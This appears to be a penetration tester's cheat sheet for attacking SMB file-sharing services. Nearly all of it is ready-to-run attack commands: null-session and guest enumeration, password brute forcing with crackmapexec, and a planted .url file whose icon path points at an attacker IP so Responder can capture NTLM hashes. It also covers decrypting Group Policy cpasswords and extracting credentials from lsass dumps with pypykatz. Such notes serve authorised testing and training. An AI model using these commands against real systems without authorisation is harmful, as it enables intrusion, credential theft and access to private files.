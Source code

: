 # Server Message Block

## Footprinting The Service

### Nmap

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

### RPCclient

{% code overflow="wrap" %}
```
rpcclient -U "" 10.129.14.128
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
rpcclient -U'%' 10.10.110.17
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p><code>-U'%'</code>: Explicitly sends an empty username and no password. <code>-N</code>: Does not send any username or password, attempting to establish a null session.</p></figcaption></figure>

| Query                     | Description                                                        |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |

## Search For Known SMB Version Vulnerabilities

## Check For Shares Using Null Sessions

```
smbclient -N -L //$ip/
```

```
cme smb $ip --shares -u "guest" -p ""
```

## Brute Forcing

```
cme smb $ip -u users.list -p pws.list --local-auth | grep '[+]'
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>If the target</p></figcaption></figure>

## URL File attacks

_Test for URL File attacks by creating a file called "@somename.url" with the following contents, upload, spin up smbserver to capture hash_

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\EnterAttackerip\%USERNAME%.icon
IconIndex=1
```

_Run Responder to capture hashes_

```
/opt/Responder-3.1.3.0/Responder.py -I tun0
```

## Read / Upload access

_Attempt to download and view share contents using valid credential / anonymous login / null session_

```
smbmap -H $ip
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
smbmap -H $ip -r 
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Using <code>smbmap</code> with the <code>-r</code> or <code>-R</code> (recursive) option, one can browse the directories</p></figcaption></figure>

```
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Downloading</p></figcaption></figure>

```
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Uploading</p></figcaption></figure>

```
smbmap -u guest -p "" -H $ip -A '.*' -R
```

## Cpassword discovery

_Search "Groups.xml" for cpassword decryption_

```
gpp-decrypt cpassword
```

## lsass.zip lsass.dmp

_search lsass.zip or lsass.dmp to use to dump credentials / keys / tickets_

```
pypykatz lsa minidump "lsass.zip"
```

## Alternate Data Streams (ADS)

_test for alternate data streams after discovering 0 byte files_

```
allinfo filename
```

## Check Password Policy

```
cme smb $ip --pass-pol -u guest -p ""
```

## User Discovery

_Check For users using valid credential / anonymous login / null session_

```
cme smb $ip --users -u guest -p ""
```

```
cme smb $ip --rid-brute -u guest -p ""
```

## Group discovery

_check for groups using valid credential / anonymous login / null session_

```
cme smb $ip --groups -u guest -p ""
```

## Smbclient

_Interactively access the smb shares using smbclient_

```
smbclient //$ip/someshare -N
```

```
smbclient //$ip/someshare -U 'guest' -N
```

```
smbclient //$ip/someshare -U 'validuser' -p 'validpass'
```

## Smbmap

```
// Some code
```

## Dangerous Settings

| Setting                     | Description                                                         |
| --------------------------- | ------------------------------------------------------------------- |
| `browseable = yes`          | Allow listing available shares in the current share?                |
| `read only = no`            | Forbid the creation and modification of files?                      |
| `writable = yes`            | Allow users to create and modify files?                             |
| `guest ok = yes`            | Allow connecting to the service without using a password?           |
| `enable privileges = yes`   | Honor privileges assigned to specific SID?                          |
| `create mask = 0777`        | What permissions must be assigned to the newly created files?       |
| `directory mask = 0777`     | What permissions must be assigned to the newly created directories? |
| `logon script = script.sh`  | What script needs to be executed on the user's login?               |
| `magic script = script.sh`  | Which script should be executed when the script gets closed?        |
| `magic output = script.out` | Where the output of the magic script needs to be stored?            |
